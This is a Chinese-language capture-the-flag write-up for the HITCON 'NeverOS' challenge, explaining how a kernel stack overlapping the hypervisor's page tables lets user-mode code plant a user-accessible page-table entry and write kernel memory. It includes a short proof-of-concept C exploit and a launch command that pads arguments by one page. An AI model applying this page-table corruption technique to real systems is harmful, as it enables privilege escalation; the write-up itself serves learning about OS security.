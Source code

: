 # NeverOS WP

### 漏洞点

1. 在hypervisor的setup_paging函数里，首先安装了这么的页表：

   ```c
   
   #define PS_LIMIT (0x200000)
   #define KERNEL_STACK_SIZE (0x4000)
   #define MAX_KERNEL_SIZE (PS_LIMIT - 0x5000 - KERNEL_STACK_SIZE)
   #define MEM_SIZE (PS_LIMIT * 0x10)
   
     uint64_t pml4_addr = MAX_KERNEL_SIZE;
     uint64_t *pml4 = (void*) (vm->mem + pml4_addr);
   
     uint64_t pdp_addr = pml4_addr + 0x1000;
     uint64_t *pdp = (void*) (vm->mem + pdp_addr);
   
     uint64_t pd_addr = pdp_addr + 0x1000;
     uint64_t *pd = (void*) (vm->mem + pd_addr);
   
     pml4[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pdp_addr;
     pdp[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pd_addr;
     pd[0] = PDE64_PRESENT | PDE64_RW | PDE64_PS; /* kernel only, no PED64_USER */
   
     sregs.cr3 = pml4_addr;
     sregs.cr4 = CR4_PAE;
   ```

   PDE_PS标志位开启，说明其映射的是一个2M（0x200000）的页到0地址；这部分接下来会作为内核代码的起始地址。

   从这段代码我们可以看见，内核最大的大小只能是0x1f7000, 接下来的0x5000空间是给内核页表使用的。0~0x1000是pml，0x1000~0x2000是pdp，0x2000~0x3000是pd。

2. 然后在kvm_init里会调用setup_regs函数去初始化虚拟机运行的寄存器：

   ```c
   regs.rip = entry;
   regs.rsp = MAX_KERNEL_SIZE + KERNEL_STACK_SIZE; /* temporary stack */
   regs.rdi = PS_LIMIT; /* start of free pages */
   regs.rsi = MEM_SIZE - regs.rdi; /* total length of free pages */
   regs.rflags = 0x2;
   ```

   可以看见，RSP被设置成了MAX_KERNEL_SIZE + KERNEL_STACK_SIZE，也就是MAX_KERNEL_SIZE + 0x4000 (0x1f7000+0x4000=0x1fb000 )。

3. 然后在执行内核代码之前，会调用copy_argv将hypervisor程序的第3个之后的参数压栈：

   ```c
   copy_argv(vm, argc - 2, &argv[2]);
   ```
4. 然后内核初始化自己页表，调用init_pagetable函数:

```c
/* Maps
 *  0x8000000000 ~ 0x8002000000 -> 0 ~ 0x2000000
 */
void init_pagetable() {
  uint64_t* pml4;
  asm("mov %[pml4], cr3" : [pml4]"=r"(pml4));
  uint64_t* pdp = (uint64_t*) ((uint64_t) pml4 + 0x3000);
  pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; // 0x8000000000
  uint64_t* pd = (uint64_t*) ((uint64_t) pdp + 0x1000);
  pdp[0] = PDE64_PRESENT | PDE64_RW | (uint64_t) pd;
  for(uint64_t i = 0; i < 0x10; i++)
    pd[i] = PDE64_PRESENT | PDE64_RW | PDE64_PS | (i * KERNEL_PAGING_SIZE);
}
```

  `pml4[1]`代表这个1级页表所表示的空间从0x8000000000（1<<47）开始到（1<< 48）-1。

   然后可以看见  MAX_KERNEL_SIZE+0x3000（0x1fa000）的部分作为pml4的第1项，然后MAX_KERNEL_SIZE+0x4000（0x1fb000）的部分作为pml4第1项的pdp的第0项，也就是pd的起始地址。

   MAX_KERNEL_SIZE+0x4000刚好是内核栈的栈顶，也就是通过系统调用（参数压入内核栈），我们可以修改pdp的内容。

   所以，我们的目标是，添加一个页表的表项，设置其标识位，使得我们可以在用户态访问这个页表的虚拟地址，这个页表的虚拟地址被同样映射到了虚拟机的物理0地址，也就是内核的起始地址。

### 尝试

  有了思路之后，我们就开始尝试利用。

*1*    我们需要mmap一块空间，使其作为pdp的项，这个表项的内容是0x87，代表其映射的地址是物理地址0，其标识位的为`PDE64_PRESENT | PDE64_RW | PDE64_USER| PDE64_PS` 。也就是用户态可以访问这个高地址。

*2*    我们需要算出前面mmap地址所对应的内核物理地址，将这个物理地址 |   PDE64_PRESENT | PDE64_RW | PDE64_USER ，填入pdp中作为其中的一项。 （这里查找mmap物理地址的方法是查找内存中的magic number）

*3*    但是因为PIE的原因，这个内核物理地址会改变，因为需要做一定的喷射，增加命中概率。

*4*     计算表项的所对应的虚拟地址（内核空间），在用户空间修改其内容就可以修改内核。

然而经过多次的尝试，可以发现这样是不可能成功。 因为 ` pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; `代码限制了页表的内容是不可以被用户空间所访问的，所以改变0x3000到0x4000的页表并不会生效。

### 利用

 然后注意到很关键的一个点，就是`pml[0]中的pdp[0]的pd`我们是可以有机会修改的，只要我们能把栈往前推一个页面的大小。又因为hypervisor的命令行参数会被压入内核栈中，所以在hypervisor中加入一个页面大小的garbage参数就可以完成前面的利用效果。

  POC：

```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <syscall.h>
#include <unistd.h>

//#define KERNEL_BASE ((char*)0xf740000000)
#define KERNEL_BASE ((char*)0x3b400000)  //hex((0xed0 >> 3)<< 21)
int main() {
  printf("Hello!\n");
  unsigned long edit = (long)KERNEL_BASE;
  char buf[22];
  syscall(0, 0, buf, 1, 0x87,0x87,0x87);
  *(long*)edit = 0xdeadbeef12345679;
  while(1){
    putchar(getchar());
    fflush(stdout);
  }
  return 0;
}
```

然后启动hypervisor:

```c
./hypervisor.elf kernel.bin ld.so ./user.elf `python -c 'print "a"*4096'`
```

### 最后

 感觉比赛的时候都没人仔细看这个题。

这个题的发现和利用需要做题人本身对操作系统中页表和地址转换的知识点比较熟悉。

感谢david942j在hitcon出了这么一个有趣的题目，让我学到了不少东西。

和操作系统搏斗比和libc搏斗有意思的多。 
